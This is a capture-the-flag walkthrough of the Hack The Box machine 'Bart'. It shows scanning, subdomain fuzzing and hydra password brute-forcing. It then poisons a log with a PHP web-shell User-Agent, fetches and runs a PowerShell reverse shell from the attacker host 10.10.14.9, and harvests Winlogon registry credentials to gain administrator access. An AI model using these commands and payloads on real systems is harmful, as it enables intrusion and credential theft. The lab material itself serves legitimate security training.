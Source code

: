 # [Bart](https://app.hackthebox.com/machines/bart)

```bash
nmap -p- --min-rate 10000  10.10.10.81 -Pn
```

![Alt text](img/image.png)

After knowing open port is just 80, let's do greater nmap scan for this port.

```bash
nmap -A -sC -sV -p80 10.10.10.81 -Pn
```

![Alt text](img/image-2.png)

While we browse the page, it redirects into 'forum.bart.htb' , let's add this into '/etc/hosts' file.

![Alt text](img/image-1.png)


From page itself 'http://forum.bart.htb/', we grab some usernames.

![Alt text](img/image-5.png)

Let's do subdomain enumeration for 'bart.htb' server.

```bash
ffuf -u http://bart.htb/ -H "Host: FUZZ.bart.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200
```

![Alt text](img/image-3.png)


Let's access into 'internal-01.bart.htb'

![Alt text](img/image-4.png)



On this page, I see that I cannot access into 'register.php' page via browser.

![Alt text](img/image-6.png)

Let's try to brute-force password of 'harvey' user.

```bash
hydra -l harvey -P /usr/share/wordlists/rockyou.txt internal-01.bart.htb http-post-form "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"
```

![Alt text](img/image-9.png)



From this result , we see that harvey: Password1 credentials works.

From enumeration, I see that this is the page which shows data from 'User-Agent' of requester.

![Alt text](img/image-7.png)


I add my malicious webshell into this request 'User-Agent' header like below.
```bash
User-Agent: dr4ks: <?php system($_REQUEST['cmd']); ?>
```

![Alt text](img/image-8.png)


![Alt text](img/image-10.png)

Our malicious webshell is now working, let's add our malicious reverse shell.

First, we download `Invoke-PowershellTcp.ps1` file into our machine, then add our stuff.

![Alt text](img/image-11.png)


Now, it's time open HTTP server to transfer our malicious file.

```bash
python3 -m http.server --bind 10.10.14.9 8080
```

![Alt text](img/image-13.png)


```bash
?cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8080/Invoke-PowerShellTcp.ps1')
```

![Alt text](img/image-12.png)

I got reverse shell from listener.

![Alt text](img/image-14.png)


Now, I do enumeration for root user, let's search 'Winlogon' to find cleartext credentials.

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

![Alt text](img/image-15.png)

Administrator: 3130438f31186fbaf962f407711faddb


Now, I have cleartext credentials. To be admin, I need to do below steps.


First, I create my reverse shell file and opens http server.

![Alt text](img/image-17.png)

```bash
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8080/Invoke-PowerShellTcp.ps1') } -Credential $cred -Computer localhost
```

![Alt text](img/image-16.png)


I got administrative reverse shell.

![Alt text](img/image-18.png)


user.txt

![Alt text](img/image-19.png)


root.txt

![Alt text](img/image-20.png)